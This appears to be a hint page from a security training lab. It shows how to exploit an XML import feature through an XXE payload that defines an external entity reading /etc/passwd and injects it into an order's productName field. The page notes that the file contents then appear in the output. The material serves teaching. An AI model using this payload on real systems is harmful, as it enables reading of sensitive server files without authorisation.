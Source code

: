 # Hint 4

Put the following XML in an XML file and try to import it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>


<Orders>
    <Order>
        <id>1995</id>
        <orderDate>1995-05-23</orderDate>
        <OrderLine>
            <id>23</id>
            <quantity>5</quantity>
            <productName>&xxe;</productName>
            <price>0.9</price>
        </OrderLine>
    </Order>
</Orders>
```

You will see that the content of the `passwd` file is published as the productName

![](xxe.png)